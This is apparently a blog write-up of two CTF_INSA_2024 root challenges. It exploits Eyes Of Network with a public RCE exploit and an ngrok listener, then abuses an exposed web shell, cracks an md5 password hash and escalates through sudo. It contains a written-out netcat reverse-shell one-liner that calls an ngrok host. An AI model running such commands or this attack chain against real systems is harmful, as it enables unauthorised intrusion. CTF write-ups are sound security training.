 ```yaml
---
title: CTFs | CTF_INSA_2024 | Realiste
author: BatBato
date: 2024-02-05
categories:
  - CTFs
  - CTF_INSA_2024
  - Realiste
tags:
  - CVE
permalink: /CTFs/CTF_INSA_2024/Realiste/
---
```

# Réaliste
#  Le monitoring est important 

![[realiste1_sujet.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_sujet.png)

In this challenge, we are tasked to become root of the machine. First we go to the login page and can log-in with the credentials `admin:admin` (before that other teams changed it).
![[raeliste1_login.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/raeliste1_login.png)

There is nothing that looks interesting on this website so can search for online available exploits for `Eyes Of Netwok exploit` One common website that list exploits is Exploit-DB:

![[realiste1_exploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_exploit.png)

We can also locally find exploit using the `searchsploit` tool:
![[realiste1_searchsploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_searchsploit.png)




After a bit of digging, I found this exploit [https://github.com/h4knet/eonrce](https://github.com/h4knet/eonrce). For this to work, I only need to specify the website, my IP (here my `ngrok`) and my port. To do so, I launched my listener and my ngrok:

![[realiste1_listener.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_listener.png)

Now I just have to run the exploit:

![[realiste1_final_exploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_final_exploit.png)

When heading back to our listener, we have a root shell and we can now improve it :

![[realiste1_root_shell.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_root_shell.png.png)

We can now read the flag at `/root/flag.txt`

# PwnMe

![[PwnMe_sujet.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/PwnMe_sujet.png)

In this challenge, we are also tasked to become root of the machine. 

First, we can enumerate the website using `Gobuster` because there is nothing in the source code or on the page:

![[realiste2_gobuster.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_gobuster.png)

As you can see, there are a lot of results. Lets look at the `assets` folder:
![[realiste2_assets.png.p(https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_assets.png)ng]]


We notice a file called `shell.php`:

![[realiste2_shell.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_shell.png)

As you can see, we can perform basic Linux command execution, lets try to execute a reverse shell command (and not be loud like the other teams uploading a lot of files):
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 4.tcp.eu.ngrok.io 14433 >/tmp/f`

We now have a shell as `www-data`, this user by default don't have rights but as you can see, we can read the content of `/home/debian/.htpasswd`:

![[realiste2_passwd.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_passwd.png)
This gives us the md5 hash of the user `debian` that we can crack offline using `John` or `Hashcat` but also online using `crackstation`:  

![[realiste2_md5.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_md5.png)

We now have the password of the user `debian`. We can run `su debian` and provide the found password:

![[realiste_debian.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_debian.png)

As we can see, we can run any commands as `debian`:

![[realiste_sudo_l.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_sudo_l.png)

So we can get a root shell as follows:

![[realiste_sudo.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_sudo.png)

And now we juste have to go to the `/root` folder and recover the flag:

![[realiste_2_flag.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_2_flag.png)
